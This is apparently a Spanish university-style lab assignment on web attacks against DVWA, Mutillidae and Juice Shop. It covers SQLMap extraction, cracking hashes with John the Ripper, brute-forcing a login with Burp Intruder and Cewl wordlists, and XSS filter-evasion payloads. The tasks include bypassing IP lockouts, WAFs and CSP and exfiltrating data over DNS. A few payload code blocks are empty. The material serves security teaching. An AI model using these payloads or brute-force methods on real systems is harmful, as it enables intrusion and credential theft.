5. Detalla los pasos para configurar el proxy en el navegador y explicar cómo se intercepta el tráfico de DVWA.
6. Describe el proceso de captura de una petición mediante Burp Suite. ¿Qué elementos de la cabecera HTTP son fundamentales para la ejecución del ataque con SQLMap?
7.  ¿Qué significa el flag --dbs y cuál es el objetivo de listar las bases de datos del servidor?
8. Explica la diferencia entre los flags -D, -T y --columns en SQLMap y cómo se relacionan en el flujo de extracción de información.
9. ¿Qué hace la flag --dump y cómo se relaciona con el objetivo final del ejercicio (obtener usuarios y contraseñas)?

### PRÁCTICA 4.1.3. SQLMap Avanzado (1 punto)
Desarrolla una mini guía de opciones avanzadas de uso de SQLMap, es importante que razones qué estás haciendo y por qué.
Documentate de fuentes externas: Blogs, VideoTutoriales, IAs, pero es imprescindibles que generes tu propia base de datos de referencias, es decir, de dónde has extraído la información (y comprueba la veracidad).

Debes realizar una demo práctica de opciones avanzadas, para ello aparte de la mini guía, puedes grabar un pequeño vídeo o capturas de pantalla mostrando las opciones avanzadas y sus usos.

**Las mejores guías se expondrán en clase.**

## PRÁCTICA 4.2. Ataques offline y online (4 puntos) 

### PRÁCTICA 4.2.1. Ataques prácticos (2 puntos)

#### PRÁCTICA 4.2.1.1 Ataque offline con John the Ripper (1 punto)

En esta práctica se generan contraseñas cifradas (hashes) usando distintos algoritmos (MD5, SHA1, SHA256, bcrypt, etc).

A continuación se muestra la debilidad de las contraseñas, las cuales no deberían NUNCA ser almacenadas en una base de datos. 

Las herramientas necesarias en Kali Linux que usaremos son las siguientes:

| Herramienta                     | Uso                                        |
|--------------------------------|--------------------------------------------|
| `openssl`                      | Generar hashes comunes (MD5, SHA*)         |
| `mkpasswd` (de `whois`)        | Generar hashes bcrypt                      |
| `htpasswd` (de `apache2-utils`)| Crear hashes tipo Apache (MD5, SHA)       |
| `John the Ripper`              | Crackear los hashes                        |


##### 1. Generar hashes

Hash con MD5 usando openssl

```bash
 echo -n "mipassword" | openssl dgst -md5
 ```

Salida: ```5f4dcc3b5aa765d61d8327deb882cf99```

Hash con SHA1 / SHA256

```bash 
echo -n "mipassword" | openssl dgst -sha1
echo -n "mipassword" | openssl dgst -sha256
```

Hash con bcrypt usando mkpasswd

```bash
mkpasswd -m bcrypt
```

Te pedirá la contraseña y genera algo como: 

```$2y$05$KpGLGIkAYwzobcUThVv2UeZB2O2GoDbGBYg9mOaQXZ1BF7av7f2mO```

Hash tipo Apache (MD5 base64) con htpasswd

```
htpasswd -nbm usuario mipassword
```

Salida: 

```usuario:$apr1$qGjvQwYq$kRb/9LUO4oAZmC7FXFhNw/```


##### 2. Vulnerabilidad de passwords con John the Ripper

1. Prepara un archivo con los hashes
Guarda el hash en un archivo, por ejemplo `hashes.txt`. Solo pon el hash si no necesitas usuario:

```bash
echo "5f4dcc3b5aa765d61d8327deb882cf99" > hashes.txt
```

O con usuario (si es un tipo apache):

```bash
echo 'usuario:$apr1$qGjvQwYq$kRb/9LUO4oAZmC7FXFhNw/' > hashes.txt
```

Usa John the Ripper para crackear

```bash
john hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

Puedes usar también un wordlist propio o combinar con reglas.

Ver resultados

```bash
john --show hashes.txt
```

La tabla comparativa de seguridad de las contraseñas según su cifrado.


| Algoritmo   | Comando para crear       | ¿John lo soporta? | Observaciones               |
|-------------|--------------------------|-------------------|-----------------------------|
| MD5         | `openssl dgst -md5`      | ✅                | Muy rápido                  |
| SHA1        | `openssl dgst -sha1`     | ✅                | Común                       |
| bcrypt      | `mkpasswd -m bcrypt`     | ✅                | Lento                       |
| Apache MD5  | `htpasswd -nbm`          | ✅                | Muy usado en servidores     |

Construye una tabla como la anterior mostrando el resultado obtenido y los tiempos dedicados para obtener las contraseñas de tus usuarios.


#### PRÁCTICA 4.2.1.2 Ataque online con Burp Suite e Intruder (1 punto)

Realizar un ataque de fuerza bruta online contra un formulario de login, utilizando diccionarios personalizados generados con `Cewl`, y detectar credenciales válidas mediante análisis de la respuesta del servidor.

1. Diccionario desde marca.com

Utiliza la herramienta **Cewl** para generar un diccionario a partir del contenido de la página principal de [marca.com](https://www.marca.com).

```bash
cewl https://www.marca.com -w marca.txt
```

2. Diccionario desde bab.la/admin

Se genera un segundo diccionario personalizado desde la URL `https://bab.la/admin`:

```bash
cewl https://bab.la/admin -w babla.txt
```

3. Captura de petición de login con Burp Suite 

   1. Configura tu navegador para que todo el tráfico pase por **Burp Suite (Proxy)**.
   2. Dirígete al formulario de login de la aplicación objetivo.
   3. Introduce cualquier valor en el login (por ejemplo, `admin:1234`) y **captura la petición HTTP**.
   4. Envía la petición capturada a la pestaña **Intruder**.
   5. En la pestaña **Positions**, elimina todos los marcadores automáticos y selecciona **solo el campo de contraseña** como campo dinámico (payload).
      - El campo de usuario debe permanecer fijo (`admin`).
      - Usa la opción *Clear §* y luego selecciona manualmente solo el valor de la contraseña y presiona *Add §*.
---

4. Ejecución del ataque con diccionario personalizado 

   1. En la pestaña **Payloads**, selecciona el diccionario `marca.txt` o `babla.txt` como fuente.
   2. Ejecuta el ataque con el botón **Start attack**.
   3. Observa las respuestas del servidor para cada intento.

---

5. Detección de credencial válida

Durante el ataque, deberás identificar la respuesta que indique un login exitoso. Para ello, observa:

   - **Código de estado HTTP**: Por ejemplo, si todos los intentos fallidos devuelven `200 OK`, pero uno devuelve `302 Found`, es posible que el 302 indique una redirección posterior al login exitoso.
   - **Longitud de la respuesta**: Las respuestas exitosas pueden diferir en longitud respecto a las respuestas fallidas.
   - **Contenido de la respuesta**: Busca mensajes distintos como “Welcome”, “Dashboard”, etc.

### PRÁCTICA 4.2.2. Ataques teoría (1 punto)

Responde brevemente las siguientes preguntas. Justifica cuando se indique. Busque información complementaria del vocabulario o términos que desconozca.

1. ¿Cuál es la diferencia entre un ataque offline y un ataque online a credenciales?
2. ¿Qué ventaja ofrece el uso del diccionario rockyou en pruebas de fuerza bruta?
3. ¿Qué información nos proporciona hash-identifier y por qué es relevante antes de usar John the Ripper?
4. ¿Por qué un código de estado HTTP 302 Found puede indicar un inicio de sesión exitoso en un ataque de diccionario?
5. ¿Qué precauciones éticas y legales deben tenerse en cuenta al realizar este tipo de prácticas en entornos reales? (0.5 puntos)
6. Explora cómo cambiaría tu estrategia si las contraseñas estuvieran “salteadas” (salted). ¿Qué dificultades añade el uso de salt y cómo podrías adaptarte?
7. ¿Cómo impactaría el uso de GPUs o clusters de computación en la velocidad de un ataque offline con John the Ripper? Describe al menos dos formas de escalar tu ataque.
8. ¿Qué ventajas y desventajas tiene un ataque híbrido (combinando reglas de mangling con diccionarios) frente a uno puramente de diccionario o puramente de fuerza bruta? Proporciona ejemplos de reglas útiles.
9. Imagina que el formulario de login de Mutillidae II aplicara un límite de tres intentos antes de bloquear la IP. ¿Cómo sortearías esa restricción para continuar tu ataque online?
10. Describe cómo detectarías y diferenciarías en tus logs un ataque de diccionario con Burp Suite de un acceso legítimo de un usuario.
11. Más allá de capturar la contraseña, ¿qué información extra podrías inferir de la respuesta HTTP (cabeceras, tiempos de respuesta, tamaño de contenido) para enriquecer tu ataque?


### PRÁCTICA 4.2.3. Ataques offline y online Avanzado (1 punto)

Desarrolla una **guía avanzada de ataques de contraseñas online y offline**, enfocándote en las técnicas y herramientas más efectivas en contextos reales. El objetivo no es solo aplicar comandos, sino **razonar, justificar y documentar** qué haces y por qué.

El conjunto de herramientas es el siguiente:

| Tipo de ataque | Herramientas sugeridas |
|----------------|-------------------------|
| Offline        | `john`, `hashcat`, `hydra` (modo offline), `crunch` |
| Online         | `hydra`, `Burp Suite Intruder`, `ffuf`, `wfuzz`, `python requests` |
| Auxiliares     | `cewl`, `hashid`, `jwt-tool`, `rockyou.txt`, reglas de John, máscaras en Hashcat |

#### Teoría:
- ¿Qué herramienta usarías según el tipo de hash o endpoint? ¿Para qué sirve cada herramienta?
- ¿Cuándo conviene un ataque online vs offline?
- ¿Cómo combinar herramientas y reglas para maximizar resultados?


#### **Demostración práctica** (mínimo 2 ataques reales)

Realiza **dos demostraciones reales**, de uso de cada una de las herramientas anteriores y cómo las combinarias. 
No es necesario usar las siguientes herramientas porque ya lo hemos hecho en las prácticas anteriores: `john`, `Burp Suite Intruder`.

- Acompaña con **capturas** o un video corto (opcional pero valorado)
- Muestra evidencia del éxito (contraseña recuperada, token accedido, etc.)
- Explica **cómo interpretaste los resultados** (no solo que salió, sino por qué y cómo lo verificaste)


#### **Base de datos de fuentes y referencias**

Documenta correctamente **de dónde sacaste la información**: blogs, artículos, videos, papers, incluso prompts de IA. Crea una sección tipo bibliografía con:

- Fuente (URL o título)
- Autor (si aplica)
- Qué información te aportó y cómo la contrastaste o validaste

## PRÁCTICA 4.3. XSS  (3 puntos)

### PRÁCTICA 4.3.1. XSS prácticos (1 punto)

Desarrolla paso a paso el ejercicio de la práctica donde se muestre claramente que lo estas haciendo tú, y explica qué sucede razonadamente. 
No es solo poner las capturas de pantalla. 
A cada pantalla explica **por qué funciona**, y **cómo podrías evitar** que te hicieran dicho ataque en tu aplicación Web.


### PRÁCTICO 4.3.2. XSS teoría (1 punto)

1. ¿Cuál es la diferencia entre XSS almacenado, reflejado y DOM-Based? Explica cada uno con un ejemplo práctico.
2. ¿Qué papel juega el `Content-Type` y el `Content-Security-Policy` (CSP) en la prevención de ataques XSS? ¿Son suficientes por sí solos?
3. Un atacante introduce el siguiente payload en una entrada de comentario:

```html
<script>alert(document.cookie)</script>
```
¿Por qué este vector es tan común, y cómo podría un servidor mal configurado permitirlo?

4. ¿Qué técnicas puede usar un atacante para evadir filtros comunes de XSS, como el filtrado de etiquetas `<script>`? Nombra al menos 3.
5. En una aplicación que filtra etiquetas `<script>`, un atacante logra ejecutar este payload:

```html

```
¿Por qué funciona este payload si `<script>` está bloqueado? ¿Qué medidas podrían mitigar este bypass?

6. ¿Cuál es la diferencia entre sanitizar y escapar entradas de usuario? ¿Cuándo se debe aplicar cada una?
7. Un campo de búsqueda refleja el `input` del usuario en la página sin escape. ¿Cómo podrías probar si es vulnerable a XSS reflejado? Describe el paso a paso.
8. ¿Por qué los ataques XSS son particularmente peligrosos cuando el usuario atacado es un administrador o tiene permisos elevados? Da un ejemplo de escenario realista.
9. Explica cómo un ataque XSS puede utilizarse para robar tokens de sesión, y por qué los tokens `HttpOnly` ayudan a prevenirlo.
10. ¿Puede un ataque XSS llevar a la ejecución remota de comandos en el servidor (RCE)? Justifica tu respuesta con un análisis técnico.


### PRÁCTICO 4.3.3. XSS avanzado (1 punto)

El objetivo de esta práctica es aprender y ejecutar vectores avanzados de XSS sin usar la etiqueta `<script>`, aplicarlos en distintos contextos, analizar sus efectos y proponer mitigaciones.

**Entorno recomendado:**  
- DVWA (nivel **High** o personalizado)  

#### 1. Preparación del entorno

1. **Arranca DVWA.
2. **Establece el nivel de seguridad en DVWA** en "High" (si no funcionase ve reduciendo el nivel).
3. **Activa Burp Suite** para interceptar y modificar si es necesario.
4. Debes anotar:
   - Payload usado  
   - Lugar de la inyección  
   - Resultado (¿se ejecutó?)  
   - Captura o descripción de efecto  
   - ¿Qué lo hizo funcionar?

### 2. Ejecución de payloads avanzados

#### 1. Inyección en atributo `src` (Reflected XSS)
- URL de prueba: `/vulnerabilities/xss_r/`
- Payload:  
  ```html
  
  ```
- ¿Qué esperar?: Se ejecutará un `alert()` al fallar la carga de imagen.

#### 2. Inyección con `<svg>` (Reflected o Stored)
- Payload:  
  ```html
  <svg/onload=alert('SVG XSS')>
  ```
- Contexto: Funciona bien en campos HTML donde SVG no está filtrado.

#### 3: Eventos en input
- Payload:
  ```html
  <input autofocus onfocus=alert('focus')>
  ```
- Consejo: Inyecta en formularios que se autovisan o en comentarios visibles.

#### 4: `href` con `javascript:`
- Payload:
  ```html
  <a href="javascript:alert('XSS')">haz click</a>
  ```
- ¿Funciona en tu navegador? ¿Está desactivado por CSP?

#### 5. Inyección en `iframe`
- Payload:  
  ```html
  <iframe src="javascript:alert('iframe XSS')">
  ```
- Prueba su ejecución en Juice Shop en el campo de comentarios.

#### 6. XSS usando `data:` URI
- Payload:
  ```html
  <iframe src="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==">
  ```
- 📌 Este payload usa Base64 para esconder el script.

#### 7. Encoded entities
- Payload:
  ```html
  
  ```
- 📌 ¿Qué pasa si el filtro solo bloquea “alert” pero no entidades?


### 4. Análisis y reflexión

Responde en tu informe final:

- ¿Cuál fue el payload más efectivo? ¿Por qué?
- ¿Qué técnicas de evasión probaste?
- ¿Qué filtros detectaste activos?
- ¿Cómo evitarías cada tipo de payload como desarrollador?
- ¿Cómo cambiaría el resultado si se aplicara un **CSP restrictivo**?

## Criterios de Evaluación Asociados

                                                      

| **RA 3: Detecta y corrige vulnerabilidades de aplicaciones web analizando su código fuente y configurando servidores web.** |                
|----------------------------------------------------------------------|
| a) Se han validado las entradas de los usuarios.                    |
| b) Se han detectado riesgos de inyección tanto en el servidor como en el cliente.                           |
| c) Se ha gestionado correctamente la sesión del usuario durante el uso de la aplicación.                     |
| d) Se ha hecho uso de roles para el control de acceso.                                                      |
| e) Se han utilizado algoritmos criptográficos seguros para almacenar las contraseñas de usuario.             |
| f) Se han configurado servidores web para reducir el riesgo de sufrir ataques conocidos.                    |
| g) Se han incorporado medidas para evitar los ataques a contraseñas, envío masivo de mensajes o registros de usuarios a través de programas automáticos (bots). |


# Investigación 

## Investigación 4.1. Inyección SQL

### 4.1.1. **Análisis de internals de SQLMap**  
   - Revisa el código fuente y la documentación de SQLMap para entender su motor de detección, la arquitectura de los plugins y cómo funcionan los **tamper scripts**.  
   - Elabora un informe que explique, paso a paso, cómo SQLMap decide qué técnica de inyección aplicar en cada fase.

### 4.1.2. **Evasión de WAFs y filtros**  
   - Selecciona tres WAF populares (p.ej. ModSecurity, AWS WAF, Cloudflare) y diseña una serie de pruebas automatizadas con SQLMap usando distintos tamper scripts.  
   - Mide la eficacia de cada script y documenta cómo cada WAF detecta o bloquea las cargas útiles. 

### 4.1.3. **Exfiltración out-of-band (OOB)**  
   - Investiga técnicas de exfiltración de datos vía DNS, HTTP y canales basados en tiempo (`time-based blind`).  
   - Implementa un laboratorio donde utilices SQLMap (o un script propio) para extraer datos de la base de datos mediante un servidor DNS controlado por ti. 

### 4.1.4. **Comparativa de técnicas de inyección**  
   - Realiza un documento comparativo de **error-based**, **union-based**, **boolean blind** y **time-based blind**, analizando ventajas, desventajas y escenarios óptimos para cada una.  
   - Incluye ejemplos concretos de payloads y resultados en distintas bases de datos (MySQL, PostgreSQL, MSSQL). 

### 4.1.5. **Estudio de casos reales**  
   - Investiga tres incidentes notables basados en SQLi (p.ej. TalkTalk 2015, Equifax 2017, otro reciente), describiendo la cadena de ataque, el impacto y las lecciones aprendidas. 


## Investigación 4.2. Ataques a Credenciales

### 4.2.1. **Impacto del salting y peppering**  
   - Investiga cómo el uso de **salt** único por usuario dificulta ataques por rainbow tables y fuerza bruta.  
   - Monte un laboratorio donde compares la velocidad de crackeo de hashes MD5 sin salt vs. con salt, y documenta la diferencia en complejidad computacional.

### 4.2.2. **Benchmark GPU vs. CPU**  
   - Contrasta el rendimiento de John the Ripper y Hashcat en CPU vs. GPU para un mismo diccionario (p.ej. rockyou).  
   - Presenta gráficas de velocidad (hashes/segundo) y análisis de coste-beneficio de desplegar clusters de GPU.

### 4.2.3. **Desarrollo de reglas de mangling y ataques híbridos**  
   - Diseña y prueba al menos cinco reglas de mangling (capitalización, sustituciones, sufijos) en John the Ripper.  
   - Mide cuántos hashes adicionales puedes romper frente a un ataque de diccionario puro. 

### 4.2.4. **Resistencia de algoritmos memory-hard**  
   - Analiza bcrypt, scrypt y Argon2: investiga cómo funcionan internamente y por qué son resistentes a ataques masivos.  
   - Crea un entorno con contraseñas cifradas usando cada algoritmo y mide el coste de crackeo con herramientas especializadas. 

### 4.2.5. **Patrones de reutilización de contraseñas**  
   - Obtén datasets de contraseñas filtradas (p.ej. RockYou, Have I Been Pwned) y analiza mediante scripts Python la **entropía** y patrones de reutilización entre usuarios.  
   - Propón recomendaciones de políticas de contraseñas basadas en tus hallazgos. 

## Investigación 4.3. Cross-Site Scripting (XSS)

### 4.3.1. **Comparativa de reflected, stored y DOM-based XSS**  
   - Documenta las diferencias de flujo de datos (“sources” y “sinks”) entre **XSS reflejado**, **almacenado** y **DOM-based**.  
   - Crea pruebas de concepto en DVWA para cada variante, anotando en qué punto falla la sanitización.

### 4.3.2. **Implementación y bypass de Content Security Policy (CSP)**  
   - Despliega una aplicación de demo y aplica una CSP estricta con **nonces** y hashes.  
   - Investiga y demuestra al menos dos técnicas de bypass conocidas de CSP (inline scripts con nonces reutilizados, eval deshabilitado, etc.). 

### 4.3.3. **Evasión de filtros según OWASP XSS Filter Evasion Cheat Sheet**  
   - Utiliza los ejemplos del cheat sheet de OWASP para construir payloads que eludan sanitizadores básicos de DVWA y Mutillidae II.  
   - Explica por qué cada payload evade el filtro y documenta las soluciones de código para mitigarlos. 

### 4.3.4. **Análisis de frameworks modernos**  
   - Estudia cómo librerías como React, Angular y Vue implementan auto-escape.  
   - Encuentra o desarrolla al menos un bypass para cada framework, detallando las condiciones necesarias. 

### 4.3.5. **Herramientas de detección y fuzzing automatizado**  
   - Evalúa al menos tres herramientas (Burp Suite, OWASP ZAP, XSStrike) en detección de XSS.  
   - Diseña un benchmark de precisión y falsos positivos, y recomienda un flujo de trabajo de pentesting que combine manual y automático. 


---
Author: Carlos Caballero González (https://www.carloscaballero.io)
